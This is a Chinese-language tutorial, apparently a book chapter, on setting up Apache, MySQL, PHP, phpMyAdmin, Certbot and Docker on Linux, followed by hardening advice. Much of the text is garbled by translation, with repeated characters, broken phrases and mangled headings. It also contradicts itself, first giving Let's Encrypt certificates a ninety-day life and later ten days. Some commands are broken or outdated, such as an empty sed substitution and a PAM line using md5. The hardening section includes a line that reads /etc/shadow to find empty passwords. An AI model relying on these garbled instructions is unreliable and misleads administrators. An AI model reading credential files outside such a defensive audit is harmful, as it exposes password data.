- 第 3 层：`Apache` 和 `MySQL` 服务
- 第 3a 层：`PHP`（由 Apache 服务调用）
- 第 3b 层：`PHP` 网页和应用（例如 phpMyAdmin）
- 第 2 层：网络和防火墙（即通信）
- 第 1 层：主机 OS（即内核、库等）
- 第 0 层：基础设施（即硬件、虚拟机、云、IoT 等）

如果你仍在学习 Linux，这是一个非常棒的章节，因为它将为你提供练习，让你了解安装一组 Linux 应用程序和所需的条件。本章将教你安装服务的基础知识、控制它们、管理配置文件等内容。

即使你不打算使用 LAMP 服务，但想获得更多安装和管理它们的经验，本章也将为你提供这类 Linux 管理的极佳介绍。

**前提条件：** 此部分需要 root 权限来安装服务。在开始此部分之前，确保你更新了软件包列表：`sudo apt-get update`。

**注意：** 这些指令假设你拥有 root 权限来安装服务。

## 安装 Apache 服务器

**概述：** 本节介绍了如何安装 Apache 服务。该服务用于交付 HTTP 文件。

Apache 服务器是一个免费且开源的跨平台 Web 服务器。它最初基于 NCSA。

**注意：** 本节假设你的 Apache 服务工作正常且配置正确。

安装最新版本的 Apache 服务器：`sudo apt-get install apache2`。

## 修改防火墙

本节涵盖了了如何配置 Apache 服务。Apache 的开发始于 1995 年 3 月。

**注意：**

该部分涵盖了如何打开必要的端口。安装最新版本的 Apache 服务器：`sudo apt-get install apache2`。

**注意：**

这些指令假设你系统中安装了 UFW 工具。UFW（不复杂的防火墙）工具易于使用。它由一组简单的命令组成，并使用 iptables 设计。

列出防火墙当前支持的所有应用：`sudo ufw list`。

确保允许 80 和 443 端口的流量：`sudo ufw allow 80` 和 `sudo ufw allow 443`。

要测试防火墙是否正常工作：`sudo ufw status`。

要测试 Apache 服务是否正常工作，请访问：`http://domain_name_or_ip`。

查找你本地主机的 IP 地址：`ip addr show eth0 | awk '{ print $2; }' | sed 's///'`。

查找你本地主机的主机：`hostname`。

## 安装 MySQL 数据库

**概述：** 本节介绍了如何安装 MySQL 数据库服务。该服务被应用用于存储或检索所需的数据。

MySQL 是开源的关系型数据库管理系统（RDBMS）。它的名字是 Michael Widenius 女女的名字“My”与 SQL（查询语言的缩写）的结合。

**前提条件：** 本节假设你的 Apache 服务工作正常且配置正确。这包括你拥有 root 权限来安装服务。

安装服务：`sudo apt-get install mysql-server`。

以下脚本将保护 MySQL 安装。它通过移除某些危险的默认设置并锁定数据库的访问来实现：`sudo mysql_secure_installation`。

**注意：** 你会被询问是否要配置 VALIDATE PASSWORD PLUGIN。此选项启用了强密码验证，这在生产环境中是推荐的。然后对于其他问题只需回答 'Y'。这将禁用匿名用户、远程 root 登录等。

测试 MySQL 连接：`sudo mysql`。

**注意：** 如果你打算安装 phpMyAdmin Web 应用来管理 MySQL 数据库。为了让 root MySQL 用户登录，你需要将身份验证方法从 `AUTH_SOCKET` 切换到 `MYSQL_NATIVE_PASSWORD`。将在本章稍后讨论，只有当你安装该 Web 应用时才需要。

要验证是否使用了 `AUTH_SOCKET` 插件（通常默认启用），在 `mysql>` 提示符下输入：`SELECT user,authentication_string,plugin,host FROM mysql.user;` 退出 MySQL 应用程序，在 `mysql>` 提示符下输入：`exit`

## 安装 PHP

**概述：** 本节提供了如何安装 PHP 引擎的说明。

PHP 是一种服务器端脚本语言，用于生成文件（主要是 Web 页面）以响应来自客户端或远程系统的 HTTP 请求。

PHP 语言专为 Web 开发设计，但用作通用编程语言。PHP 原本代表 Personal Home Page（个人主页），但现在代表的是递归缩写 PHP：Hypertext Preprocessor（超文本预处理器）。

**前提条件：** *本节假设 Apache 和 MySQL 服务已正常运行并配置妥。这包括你拥有系统上的 root 权限来安装 PHP 引擎。*

安装 PHP 引擎以及访问 Apache 和 MySQL 服务所需的额外辅助包，输入：`sudo apt-get install php libapache2-mod-php php-mysql`

修改 Apache 以接受 index.php 文件，输入：`sudo nano /etc/apache2/mods-enabled/dir.conf`。在 nano 编辑器中，找到下方（即 DirectoryIndex），将 PHP 索引文件（即 index.php）移动到第一位置：

```apache
<IfModule mod_dir.c>
    DirectoryIndex index.php ...
</IfModule>
```

（要保存文件并退出编辑器，按 `Ctrl+X`，输入 `y` 并按回车键）

然后重启 Apache 服务，输入：

`sudo systemctl restart apache2`

检查服务状态，输入：

`sudo systemctl status apache2`

## 测试 PHP 安装

为了确保 PHP 引擎正常工作。使用以下命令在 Web 根目录 `/var/www/html/` 中创建一个名为 info.php 文件，输入：`echo "<?php phpinfo(); ?>" > /var/www/html/info.php`。测试该页面以检查 PHP 是否安装正确。在浏览器中输入：`http://domain_name_or_ip/info.php`。如果一切运行正常，页面将显示大量关于操作系统和相关子系统的信息。

要删除此文件，输入：

`sudo rm /var/www/html/info.php`

**其他资源：**

为了帮助从浏览器管理你的 MySQL 数据库，请查看 PHPMyAdmin。

要添加免费的 TLS/SSL 证书，请查看 Let's Encrypt。

## 安装 PHPMyAdmin

**概述：** 本节提供了如何安装 PHPMyAdmin Web 应用程序的说明。该工具允许你通过 Web 用户界面 (WUI) 使用浏览器管理你的 MySQL 数据库。

由于 phpMyAdmin 工具的流行和强大功能，使其成为了互联网攻击者的目标。我绝不建议在生产系统中运行此 Web 应用程序。如果你必须运行它，请确保它已经锁定并定期进行补丁更新。强烈建议使用 SSL 加密与该工具的所有通信。

**前提条件：** *本节假设你的 Apache、MySQL 和 PHP 已正常运行并配置妥。这包括你的防火墙设置，以及你拥有系统上的 root 权限。*

安装 phpMyAdmin Web 应用程序，输入：


`sudo apt-get install phpmyadmin php-mbstring php-gettext`

**注意：** 对于服务器选择，选择 "`apache2`"，然后在询问是否使用 `dbconfig-common` 设置数据库时选择 "`Yes`"。然后你将被要求选择并确认用于 phpMyAdmin 的 MySQL 应用程序密码。安装过程会将 phpMyAdmin Apache 配置文件添加到 `/etc/apache2/conf-enabled/`。

要显式启用 `mbstring` PHP 扩展，输入：`sudo phpenmod mbstring`

重启 Apache 以识别更改，输入：`sudo systemctl restart apache2`

**注意：** phpMyAdmin 会自动在 MySQL 中创建一个名为 `phpmyadmin` 的数据库。

要使用你的 root MySQL 用户登录，你需要将验证方法从 `AUTH_SOCKET` 切换到 `MYSQL_NATIVE_PASSWORD`，输入：`sudo mysql`

要显示 MySQL 正在使用的当前验证方法配置，在 `mysql>` 提示符下输入：`SELECT user,authentication_string,plugin,host FROM mysql.user;`。要将验证方法配置更改为使用 `mysql_native_password`，在 `mysql>` 提示符下输入：`ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'password';`

**注意：** 请确保将 `'password'` 更改为强密码。

要使配置更改生效，在 `mysql>` 提示符下输入：`FLUSH PRIVILEGES;`

要确保新的配置更改已在系统中实施，在 `mysql>` 提示符下输入：`SELECT user,authentication_string,plugin,host FROM mysql.user;`。在 `mysql>` 提示符下输入 `exit`

要访问 PHPMyAdmin Web 界面，在浏览器中输入机器域名或公网 IP 地址，`https://domain_name_or_ip/phpmyadmin`

**注意：** 当启用密码认证时，你需要使用不同的命令登录。要使用传统方法登录，输入：`mysql -u root -p`

要创建一个唯一用户而不是使用 root 用户，请按照以下命令修改步骤。在 `mysql>` 提示符下输入：`CREATE USER 'new_user'@'localhost' IDENTIFIED BY 'password';`

**注意：** 将 `'new_user'` 更改为你想要的名称，并将 `'password'` 设为强密码。

此命令授予新用户适当的权限；

## 固 phpMyAdmin

**概述：** 本节是对 `.htaccess` 文件的实用介绍。`.htaccess` 文件允许你在即使不需要使用此功能的情况下应用指令来覆盖默认 Apache 设置。

**前提条件：** 本节假设你的 Apache、MySQL 和 PHP 已正常运行并配置妥。这包括你的防火墙设置，以及你拥有系统上的 root 权限。

你需要通过修改 `/etc/apache2/conf-available/phpmyadmin.conf` 文件来启用对 `.htaccess` 文件的使用。

在以下部分添加 `AllowOverride` 行：

```apache
<Directory /usr/share/phpmyadmin>
AllowOverride All
</Directory>
```

要保存文件并退出编辑器，按 `Ctrl+X`，输入 `y` 并按回车键

重启 Apache 服务，输入：

`sudo systemctl restart apache2`

要应用安全权限，你需要创建 `.htaccess` 文件，输入：`sudo nano /usr/share/phpmyadmin/.htaccess`

**注意：** 在文件中，输入以下信息：可以省略注释，我提供它们仅为了清晰起见。

```apache
# 指定正在实施的身份验证类型（例如，密码文件）
AuthType Basic

# 指定身份验证对话框的消息。
# 建议：出于安全考虑，请保持消息的通用性。
AuthName "Restricted Files"

# 指定用于认证的密码文件位置
# 建议：将此文件存储在 Web 服务所提供的目录之外。
AuthUserFile /etc/phpmyadmin/.htpasswd

# 指定仅允许经过身份验证的用户访问资源。
Require valid-user
```

要创建密码文件，系统将提示你输入密码，输入：`sudo htpasswd -c /etc/phpmyadmin/.htpasswd user_name`。要创建额外用户，在不使用 `-c` 标志的情况下执行，输入：`sudo htpasswd /etc/phpmyadmin/.htpasswd new_user_name`。当你访问 PHPMyAdmin 界面时，系统将提示输入创建的额外用户名和密码，输入：

`https://domain_name_or_ip/phpmyadmin`

## 安装 SSL 证书

**概述：** Let's Encrypt 是一个证书颁发机构（CA），提供免费的 TLS/SSL 证书，允许您在您的 Web 服务器上启用启用加密的 HTTPS 通信。HTTPS 对于您的网站和用户的安全性至关重要。

Google 等搜索引擎会对支持加密通信的网站在搜索结果中给予更高的优先级。

**前提条件：**

- 一台运行最新版本 Linux 和 apache 的服务器。
- 一个已完全注册的域名，例如 `example.com`。
- 指向您的服务器公共 IP 地址的 DNS “A 记录”（以及 “CNAME 记录”，后者是可选的）。例如：`example.com (123.321.123.321)`，`www.example.com (123.321.123.321)`。

## 安装 Certbot

EFF 的 Certbot 可以通过部署 Let's Encrypt 证书自动在您的网站上启用 HTTPS。您可能会问为什么需要 Certbot 来帮助您。首先，它自动化了请求和安装证书的过程，这可以减轻您的管理负担。

其次，Let's Encrypt 证书具有硬编码的 90 天有效期，在在此之前必须续期。Certbot 会自动处理续期过程。此功能旨在防止恶意人员或团体在获取证书后进行滥用。

要安装 Certbot 仓库，输入：

`sudo add-apt-repository ppa:certbot/certbot`

要安装 Certbot 的 Apache 软件包，输入：

`sudo apt-get install python-certbot-apache`

打开该域名的虚拟主机文件，输入：`sudo nano /etc/apache2/sites-available/example.com.conf`。找到 `ServerName`，它看起来 own示例：

`ServerName example.com;`

...

**注意：** 如果不匹配，请更新文件并保存更改。

要验证您编辑的配置语法，输入：`sudo apache2ctl configtest`

**注意：** 如果有错误，请重新打开虚拟主机文件并检查错误（例如拼写错误、缺失字符等）。

要重新加载 apache 服务以强制加载新配置，输入：`sudo systemctl reload apache2`

## 通过防火墙允许 HTTPS

您需要确保防火墙中开放了 HTTPS 端口 (`TCP/443`)，以便远程系统与该服务通信。

检查防火墙的当前状态，输入：`sudo ufw status`

要清除旧的防火墙配置（如果存在）并将其替换为新的，输入：`sudo ufw delete allow 'Apache'`

`sudo ufw allow 'Apache Full'`

检查当前防火墙状态，输入：

`sudo ufw status`

## 获取 SSL 证书

Certbot 提供了通过插件获取 SSL 证书的多种方法。Apache 插件将在需要时自动处理重新配置 Apache 并重新加载配置。

要使用此插件，输入：

`sudo certbot --apache -d example.com -d www.example.com`。如果您是第一次运行 certbot，系统将提示您输入电子邮件地址并同意服务条款。完成操作后，certbot 将与 Let's Encrypt 服务器通信，然后运行挑战以验证您控制了所请求证书的域名。

如果成功，certbot 将询问您希望如何配置 HTTPS 设置。选择您的选项并按回车键。配置将得到更新，Apache 将重新加载以采用新设置。


您的证书已下载、安装并加载。请尝试使用 `https://` 重新加载您的网站，并注意浏览器的安全指示。它应该指示网站已正确保护，通常带有一个绿色锁图标。

**提示：** *如果您使用 SSL Labs Server Test (**https://www.ssllabs.com/ssltest/**) 测试您的服务器，它应该为您的网站授予 A 等。*

## 验证 Certbot 自动续期

如前所述，Let's Encrypt 证书有效期仅为十天。这样做是为了鼓励用户自动化证书更新过程。安装的 `certbot` 包通过在 `/etc/cron.d` 中添加续期脚本来为您处理此问题。该脚本每天运行两次，并将自动续期任何将在未来三十天内过期的证书。

要测试续期过程，输入：

`sudo certbot renew --dry-run`

在需要时，`Certbot` 将更新您的证书并重新加载 `Apache` 以采用更改。如果自动化续期过程发生故障，Let’s Encrypt 将向您指定的电子邮件发送消息，警告您您的证书即将过期。

## 安装 Docker（容器化）

**概述：** `Docker` 是一种管理运行在 Docker 容器中的进程的技术。Docker 容器在资源隔离的进程中运行应用程序。该技术与虚拟机 (`VMs`) 类似，但 Docker 容器更具移植性、更节省资源，并且依赖于主机操作系统。

Docker 和虚拟机技术提供了进程资源隔离。与 Docker 不同，虚拟机独立于主机操作系统运行。每个虚拟机都需要宿主机操作系统。

**前提条件：**

- 具有合理资源量的系统（例如：2 个 CPU、8GB 内存、50GB 存储）。
- 更新过的 Linux。
- Docker Hub (`https://www.docker.com`) 上的账户。

### 从官方 Docker 仓库安装 Docker

你可以使用发行版内置的仓库来安装 Docker，但它们并不总是能提供最新版本。要获取最新版本的 Docker，你需要将你的包管理器指向官方仓库。

要更新你的包管理器仓库信息，请输入：`sudo apt-get update`

确保你的 `apt` 包管理器具备使用 HTTPS 下载的必要条件，输入：`sudo apt-get install apt-transport-https ca-certificates curl software-properties-common`

将官方 Docker 仓库的 GPG 密钥添加到 `apt` 包管理器，输入：`curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -`

将 Docker 仓库添加到 `apt` 源中，输入：`sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu bionic stable"`

使用 Docker 软件包更新 `apt` 数据库，输入：`sudo apt-get update`

确保你正在从正确的 `apt` 仓库安装 Docker 而不是默认仓库，输入：`apt-cache policy docker-ce`

你应该能看到以下消息，提示安装包来自 Docker 仓库：



安装 Docker 服务，输入：`sudo apt-get install docker-ce`

检查 Docker 服务是否正在运行，输入：`sudo systemctl status docker`

你应该能看到以下消息，提示服务正在运行：... Active: active (running) ...

**注意：** *在安装 Docker 时，你将获得 Docker 服务（守护进程）和 `docker` 命令行工具。`docker` 命令行工具是你与服务、镜像和容器交互的方式。`docker` 命令必须由 `root` 用户或在 Docker 安装过程中自动创建的 `docker` 组中的用户运行。要将你的用户名添加到 `docker` 组，请输入：`sudo usermod -aG docker ${USER}`（如果遇到问题，请在命令中手动输入你的用户名）。然后注销并重新登录，或者输入 `su - ${USER}`，以确认你已在 `docker` 组中，输入 `id -nG`。*

### 使用和测试 Docker 服务

本节及本章的其余部分假设你已经将用户账户添加到之前提到的 `docker` 安全组。如果没有，你将需要在 `docker` 命令前加上 `sudo` 命令。

Docker 命令的语法如下：

`docker [option] [command] [arguments]`

要检查 Docker 是否正在运行以及连接性是否工作正常，输入：`docker run hello-world`

**注意：** *如果镜像尚未安装在你的本地仓库中，它将从 Docker Hub 网站 [默认仓库] 自动下载。*



要显示下载到你电脑上的镜像，输入：`docker images`



在 Docker Hub 网站（`https://hub.docker.com/`）搜索可用的 Docker 镜像。使用以下命令返回所有匹配搜索字符串的镜像列表，输入：`docker search hello-world`



**注意：** *如果 Docker 镜像的 OFFICIAL（官方）列显示 [OK]，则意味着该镜像是由项目背后的公司构建并支持的。*

### Docker 容器

我认为强调 Docker 镜像和容器之间的区别很重要。Docker 镜像是一个数字模板，存储了所有的资源（例如程序、库等）和数据。当你运行镜像时，它的副本加载到内存中并变成 Docker 容器。

下载官方 Ubuntu 镜像，输入：`docker pull ubuntu`


使用最新的 Ubuntu 镜像运行容器，输入：`docker run -it ubuntu`

**注意：** *-i 和 -t 切换提供了交互式 shell访问。输出类似于 `root@d57ed79b8d:/#`。`d57ed79b8d` 是 ID，如果你以后想删除它，就需要它。*

在容器内部可以执行任何 Linux 命令，所有更改只会在容器内进行。例如，你可以安装、执行，然后退出。

**注意：** *在容器内部时，不需要在任何命令前加 `sudo`，因为你始终是以 `root` 用户身份操作。*

```
root@d57ed79b8d:/# apt update
root@d57ed79b8d:/# apt install
root@d57ed79b8d:/# mc
root@d57ed79b8d:/# exit
```

### 管理 Docker 镜像和容器

当内存中有多个运行的 Docker 容器时，你需要理解管理它们的基本命令（例如启动、停止等）。

显示系统中活跃（运行）的容器，输入：`docker ps`

显示显示系统中活跃（运行）和非活跃的容器，输入：`docker ps -a`

启动 Docker 容器（例如使用之前下载的 Ubuntu 镜像），使用要启动的镜像的容器 ID，输入：`docker start d57ed79b8d`

**注意：** *容器 ID 和名称会在你启动和停止这些进程时不断变化。这些仅作为完整命令的示例。*

要停止 Docker 容器，使用容器 ID 或分配的名称（参见 `ps` 的输出），输入：`docker stop happy_container`

不再需要容器后，可以删除它，输入：`docker rm happy_container`

**注意：** *可以覆盖任何选项，例如自动命名。你所做的是在创建容器的命令中添加正确的切换（例如 `--name`）。*

### 提交 Docker 镜像

按照你想要修改容器后，必须提交更改，并根据你做的更改创建一个新的 Docker 镜像。否则，如果你不想保留更改，删除容器后所做的更改将会丢失。

这是 `commit` 命令的语法：

`docker commit -m "commitment message" -a "author name" container_id repository/new_image_name`

**注意：** *例如，`repository` = Docker Hub 用户（例如 `jane2020`）。*

这是 `commit` 命令的完整示例：

`docker commit -m "added apps" -a "jane" d57ed79b8d jane2020/ubuntu_testapp`


查看本地系统中安装的所有 Docker 镜像，输入：`docker images`

你会注意到启动时的源（或基础）镜像与你刚刚创建的新镜像之间的大小差异。这些差异由你添加的更改（例如新仓库、命令等）组成。

## 将镜像推送到 Docker 仓库

将 Docker 镜像自定义到你想要的方式后，你可以将这些更改上传到 Docker Hub 以在其他系统上使用或供他人使用。

登录 Docker Hub 账户，输入：`docker login -u docker_user_name` 用账户密码验证后，你可以推送自己的镜像，输入：`docker push docker-registry-username/docker-image-name` 例如，将镜像推送到你的 Docker Hub 账户，输入：`docker push jane2020/ubuntu_testapp`

注意：将镜像推送到 Docker Hub 仓库后，Docker 镜像将列在你的账户仪表板上。

在另一台计算机从 Docker Hub 账户拉取镜像，输入：`docker pull jane2020/ubuntu_testapp`

## Docker 命令（18 版本）

这是当前 `docker` 命令（编写本书时）列表及其描述。所有这些命令都需要 `docker` 命令作为前缀。例如，`docker info` 显示有关正在运行的 Docker 服务的信息。

要获取特定命令的更多信息，输入：`docker COMMAND --help`

- `attach`: 将本地 STDIN、输出和错误流附加到运行的容器。
- `build`: 从 Dockerfile 构建镜像。
- `commit`: 从容器的更改创建新镜像。
- `cp`: 在容器和本地文件系统之间复制文件/文件夹。
- `create`: 创建新容器。
- `diff`: 检查容器文件系统中文件或目录的更改。
- `events`: 从服务器获取实时事件。
- `exec`: 在运行的容器中运行命令。
- `export`: 将容器的文件系统导出为 tar 归档。
- `history`: 显示容器镜像的历史记录。
- `images`: 列出容器镜像。
- `import`: 从 tar 包导入内容以创建文件系统镜像。
- `info`: 显示系统级信息。
- `inspect`: 返回 Docker 对象的低级信息。
- `kill`: 杀死一个（或多个）运行的容器。
- `load`: 从 tar 归档或 STDIN 加载容器镜像。
- `login`: 登录 Docker 注册表。
- `logout`: 退出 Docker 注册表。
- `logs`: 获取特定容器的日志。
- `pause`: 暂停一个（或多个）容器内的所有进程。
- `port`: 列出端口映射或容器的特定映射。
- `ps`: 列出系统上安装的容器。
- `pull`: 从注册表拉取镜像或仓库。
- `push`: 将镜像或仓库推送到注册表。
- `rename`: 重命名容器。
- `restart`: 重启一个（或多个）容器。
- `rm`: 删除一个（或多个）容器。
- `rmi`: 删除一个（或多个）镜像。
- `run`: 在新容器中运行命令。
- `save`: 将一个（或多个）镜像保存为 tar 归存档（默认流到 STDOUT）。
- `search`: 在 Docker Hub 中搜索镜像。
- `start`: 启动一个（或多个）容器。
- `stats`: 显示容器资源使用统计的实时流。
- `stop`: 停止一个（或多个）正在运行的容器。
- `tag`: 创建指向 `SOURCE_IMAGE` 的标签 `TARGET_IMAGE`。
- `top`: 显示容器的运行进程。
- `unpause`: 恢复一个（或多个）容器内所有进程。
- `update`: 更新一个（或多个）容器的配置。
- `version`: 显示 Docker 版本信息。
- `wait`: 阻塞直到一个（或多个）容器停止，然后打印它们的退出码。

## 安全提示（系统锁定）

概述：你每天都会读到这家或或公司是如何被恶意人员或组织入侵的。保护你自己和业务可以做的主要措施之一，就是锁定你的服务器和桌面的安全性。

前提条件：本节要求你在系统上拥有 `root` 权限，以便安装服务和更改操作系统。

本节涵盖了你可以采取的一些措施，以增加“恶意行为者”（即黑客）入侵你系统的难度。请注意，本节仅提供某些可用选项的层级概述。你可能需要针对你正在使用的发行版查阅如何实现这些更改的方法。

警告：对于任何类型的更改，在未先在开发系统或预生产系统上进行测试之前，绝对不要在生产系统上进行。你需要确保这些更改中的任何一个都不会影响你应用程序的运行。

任何操作系统的新安装在默认安装时都比以前更安全。尽管，如果你有一个旧的现有系统，它可能需要一些加固，以更有效地抵御攻击。

本章包含了一份建议的安全工具和技巧，用于执行不同类型的系统安全管理任务和诊断。

### 核心安全哲学

每个信息技术领域的人都应该遵循一些核心安全哲学。本节内容非常高层级，可能会过度简化该主题，但请注意它的范围比这里涵盖的要广泛得多。

最常见的恶意行为者类型（试图窃取所能的一切个人或群体）正在寻找他们可以快速入侵的容易目标。这类攻击更容易防御，你主要只需要确保你的系统已锁定并更新即可。

而更有决心的恶意行为者（通常是国家级力量）要困难得多。他们通常有一个针对的特定目标，并会使用任何想要的方法来实现他们的最终目标。

下面列出的核心安全哲学只是许多哲学中的少数几个，但这些是一个很好的起点：

- 最小权限原则 (`Least Privilege`)：仅授予用户完成其工作所需的权限。不要因为这会让你的工作更轻松就给用户授予管理员访问权限。
- 深度防御 (`Defense in Depth`)：创建多层安全或防御。例如，设置外部防火墙来保护你的边界，利用操作系统上的本地防火墙，然后加密你所有的数据和通信。
- 保持持久 (`Be Persistent`)：恶意行为者不断改变他们的攻击方法，因此你必须不断适应新方法来防御这些新类型的攻击。
- 减少你的攻击面 (`Reduce your Attack Surface`)：关闭不需要的服务，更改默认密码和账户，确保你的防火墙配置正确等。

接下来的安全图是一个高层级的工具，旨在帮助视觉化你需要考虑防御攻击的不同层级。它还简要描述了为了保护该层级你需要进行的一些考虑因素。

### 安全概述

| 层级 | 名称 | 描述 |
| :--- | :--- | :--- |
| 第 8 层 | 系统备份 | 最后一道防线，需要定期测试 |
| 第 7 层 | 应用程序/服务 | 即：需要补丁 [`Docker`、`Web 服务`、`数据库`] |
| 第 6 层 | 用户安全 | 即：执行强密码并定期更换 |
| 第 5 层 | 文件系统 | 即：减少文件权限，加密数据 |
| 第 4 层 | 网络/防火墙 | 即：阻塞必要的端口，加密通信 |
| 第 3 层 | 操作系统 | 即：需要补丁 |
| 第 2 层 | 基础设施 | 即：需要补丁 [`硬件`、`虚拟机管理程序`、`交换机`、`虚拟机`等] |
| 第 1 层 | 边界 | 即：需要监控 [`路由器/防火墙`] |
| 第 0 层 | 公共网络 | 即：互联网 [无保护] |

如果你有时间，我鼓励多读关于这个主题。

## 检查你的系统的恶意软件

即使是 Linux 也无法免于恶意软件，`ClamAV` 是该操作系统可用的最流行的反病毒扫描器之一。建议定期扫描系统中的恶意代码，但不遗憾，它们可能无法被覆盖。使用以下方法之一安装此扫描器：

- 对于基于 Debian 的系统：`sudo apt-get install clamav`
- 对于基于 Red Hat 的系统：`sudo yum install epel-release`, `sudo yum install clamav`

要运行扫描器，你首先需要更新最新的签名，输入：`sudo freshclam`

要扫描特定文件夹，输入：`sudo clamscan -r -i /`（扫描根目录）或 `sudo clamscan -r -i /home`（扫描家）。

提示：要安装客户端的 GUI 版本（Windows），输入：`sudo apt-get install clamtk`

更多信息：`https://www.clamav.net/`

## 锁定系统的物理访问

任何生产系统都应该处于锁定环境中，具有物理访问控制、备份电源和冷却。如果恶意行为者拥有设备的物理访问权限，他们可以绕过大多数系统功能。尽管如此，你仍然可以增加难度。以下是一些建议：

锁定固件（`BIOS/UEFI`），配置禁用从光盘或外部设备（如 USB 闪存设备）启动。还要确保启用固件密码。启用 `GRUB` 密码以限制对本地文件系统的访问。加密本地文件系统、文件权限、数据库数据等。

加密所有网络通信。这将使恶意行为者难以在数据传输期间嗅探数据。不要使用根账户名称，如 `root`、`admin` 或 `administrator`。对用户名要有创意。

确保对所有账户使用强密码，并定期更改。

## 数据分区


在创建新系统时，设置多个分区来存储数据是很，这有助于防止数据损坏以及某些类型的系统资源耗尽攻击。例如，如果交换区域和日志没有各位于自己的分区上。如果攻击者尝试用某种攻击（例如 DDoS）填充它们，可能会导致系统关闭或故障。

## 移除未使用的软件

移除或禁用任何不再使用的应用程序、服务或软件包都可以帮助保护你的计算机。通过这样做，你减少了恶意人员可以利用来接管系统的攻击目标。

移除这些软件还有一个额外好处，就可以释放空间、CPU 和其他系统资源，这些资源本会被该应用程序所浪费。

以下是一些可以帮助你找到并移除不再需要的内容命令：

- 列出所有可用软件包，输入：`sudo apt-cache pkgnames`
- 获取包名称的简要描述，输入：`sudo apt-cache search package_name`
- 获取软件包的详细信息，输入：`sudo apt-cache show package_name`
- 检查特定软件包的依赖关系，输入：`sudo apt-cache showpkg package_name`
- 检查软件包缓存统计数据，输入：`sudo apt-cache stats`
- 卸载软件包（保留配置文件以备重新安装），输入：`sudo apt-get remove package_name`
- 彻底卸载软件包（删除配置文件），输入：`sudo apt-get purge package_name`

## 监控连接

你的计算机可能同时进行几十个或数百个连接。有时，你可能通过注意到来自异常端口或服务的奇怪连接来识别攻击者。

检查与计算机的连接，输入：`netstat -tulpn`

- 显示所有 TCP 套接：`ss -t -a`

**注意：** *书中还有更多关于 `netstat` 和 `ss` 命令的示例，这里仅作为参考。*

## 用户账户限制

### 手动禁用账户

你可以在不删除账户的情况下手动禁用（即锁定）或重新启用（即解锁）账户。这在用户去休假或其他其他情况下非常有用，你可以禁用它而不是删除它。

如果有人尝试登录禁用的账户，他们将收到以下消息：“*此账户目前不可用。*”

锁定账户，输入：`sudo passwd -l user_name`

解锁账户，输入：`sudo passwd -u user_name`

### 强制执行强密码

如果系统允许，用户默认会为他们的账户使用弱密码。这使得攻击者更容易使用基本攻击（如字典攻击或暴力破解攻击）破解你的系统。

PAM（可插拔认证模块）中提供了 `pam_cracklib` 模块，它将强制用户使用强密码。

要实现此技术，按照下面的指令操作：打开文本编辑器，输入：`sudo nano /etc/pam.d/system-auth`

使用以下任何参数添加以下行，例如：`lcredit`、`ucredit`、`dcredit` 和/或 `ocredit` 分别代表小写、大写、数字和其他）。例如，输入：`lib_security/$ISA/pam_cracklib.so retry=3 minlen=8 lcredit=-1 ucredit=-2 dcredit=-2 ocredit=-1`

### 锁定用户账户

使用 PAM 模块禁止用户使用旧密码。

RHEL CentOS Fedora，输入：`sudo nano /etc/pam.d/system-auth`

或——

Ubuntu Debian Linux Mint，输入：`sudo nano /etc/pam.d/common-password`

在 **auth** 部分添加以下行，输入：`auth sufficient pam_unix.so likeauth nullok`

在 **password** 部分添加下一行（这将不允许用户重用最后 5 个密码），输入：`password sufficient pam_unix.so nullok use_authtok md5 shadow remember=5`

**注意：** *旧密码文件位于：`/etc/security/opasswd`*

### 管理用户密码过期

在 Linux 中，用户密码存储在加密的 `/etc/shadow` 文件中。要显示用户的密码过期信息，你需要使用 `chage` 命令。它将显示密码过期的详细信息，以及最后一次更改密码的日期。输入：`chage -l username`

要更改任何用户的密码年龄选项，使用以下命令，输入：`sudo chage -M 90 user_name`

或——`chage -M 90 -m 7 -W 5 user_name`

## 禁用 X-Windows

如果你在生产机器上运行 X-Windows，则应该将其移除。X-Windows 为系统增加了需要的额外开销，消耗额外的资源（如内存、CPU、存储空间），并且总体会降低系统的安全性。

要禁用 GDM（GNOME 显示管理器），输入：`sudo update-rc.d -f gdm remove`

**注意：** *要再次启用 GDM，输入：`sudo update-rc.d -f gdm defaults`*

## 锁定 SSH

确保锁定用于远程管理的 `ssh`（安全外壳）配置。否则，攻击者可以利用此服务来远程接管系统。

要锁定它，你必须打开主 `ssh` 配置文件，验证、添加或更改以下项目：

- 禁用 root：`PermitRootLogin no`
- 仅允许特定用户：`AllowUsers user_name`
- 协议：`Protocol 2`

**注意：** *显示消息的方法有两种。第一是 `/etc/issue` 文件，它在登录前显示消息。第二是 `/etc/motd` 文件，它在用户登录后显示消息。*

要实现此操作，打开 `/etc/ssh/sshd_config` 文件，然后搜索单词 `Banner`。更新行类似于：`Banner /etc/issue`

重启 `ssh` 服务，输入：`sudo /etc/init.d/sshd restart`

## 禁用 Ctrl+Alt

大多数发行版中，按下 Ctrl+Alt 键会导致系统重启。这可能不是，以下指令讨论了如何更改。

Red Hat 系版：要禁用此功能，在 `/etc/inittab` 文件中取消注释 `::shutdown -t -r now`

Debian 系版：要禁用此功能，运行以下命令：`sudo systemctl mask ctrlalt.target; systemctl daemon-reload`

## 监控空密码

有一种简单的方法可以检查任何账户是否有空密码，这些账户存在巨大的安全风险。这些账户允许未经授权的用户通过按回车键访问系统，并使你的系统更容易受到攻击。

要检查任何账户是否有空密码，输入：`sudo cat /etc/shadow | awk -F: '($2==""){print $1}'`

## 更新系统

保持系统和应用程序更新至关重要，根据发行版本所需的命令有所不同。之前在书中介绍过，再次介绍是为了防止在之前的章节查找信息。

- Debian 系：`sudo apt-get update; apt-get upgrade`
- Red Hat 系：`sudo yum updates; yum check-update`

## 加固 NTAB

如果你的系统在使用 CRON 任务，锁定它们的访问是非常重要的。CRON 服务允许你指定谁可以或谁不想运行任务。

此服务通过两个文件 `/etc/cron.allow` 和 `/etc/cron.deny` 进行控制。

要防止用户利用 CRON 服务，只需将用户名添加到 `/etc/cron.deny` 文件中。

要禁止所有用户使用 CRON 服务，将关键字 ‘ALL‘ 行添加到 `/etc/cron.deny` 文件中，输入：`sudo echo ALL >> /etc/cron.deny`

要允许用户运行 CRON 任务，将他们添加到 `/etc/cron.allow` 文件中。

**注意：** *锁定脚本权限非常重要，防止恶意用户替换它并进行权限提升攻击。这就是他们替换一个以高权限访问账户运行的脚本以执行特定操作来提高其系统权限的情况。*

## 阻止 USB 驱动器

你可以防止用户在系统上使用 USB 闪盘。

这有助于防止他人安装新软件或从从中窃取数据。

